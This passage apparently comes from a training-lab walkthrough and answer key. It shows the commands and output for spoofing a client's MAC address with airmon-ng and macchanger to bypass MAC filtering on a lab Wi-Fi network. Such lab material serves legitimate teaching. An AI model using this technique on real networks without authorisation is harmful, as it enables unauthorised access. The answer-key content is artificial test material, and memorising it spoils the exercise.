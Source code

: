 Answer: `CyberNet-Secure-5G`

# Bypassing Mac Filtering

## Question 2

### "Execute the MAC Filtering bypass as demonstrated in the section to establish a connection to the 5 GHz band. Once connected, locate the flag at IP address 192.168.2.1."

Students will reuse the previously established RDP session. Additionally, students will terminate the `airodump-ng` process using the key combination `Ctrl + C`. Next, students will use `airmon-ng` to stop the monitoring mode of the wireless adapter `wlan0mon`:

Code: shell

```shell
sudo airmon-ng stop wlan0mon
```

```
wifi@WiFiIntro:~$ sudo airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy5	wlan0mon	htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 station mode vif enabled on [phy5]wlan0)

		(mac80211 monitor mode vif disabled for [phy5]wlan0mon)
```

Students will use `macchanger` to change the MAC address to any of the MAC addresses found in the previous question in the `STATION` column of the output from `airodump-ng`, and will disable the `wlan0` interface, change the MAC address, and they will enable the interface. Note, that the MAC addresses of the clients change upon every spawn of the target:

Code: shell

```shell
sudo ifconfig wlan0 down
sudo macchanger wlan0 -m 9E:61:2E:38:9C:FB
sudo ifconfig wlan0 up
```

```
wifi@WiFiIntro:~$ sudo ifconfig wlan0 down
wifi@WiFiIntro:~$ sudo macchanger wlan0 -m 9E:61:2E:38:9C:FB

Current MAC:   42:00:00:00:05:00 (unknown)
Permanent MAC: 42:00:00:00:05:00 (unknown)
New MAC:       9e:61:2e:38:9c:fb (unknown)

wifi@WiFiIntro:~$ sudo ifconfig wlan0 up
```
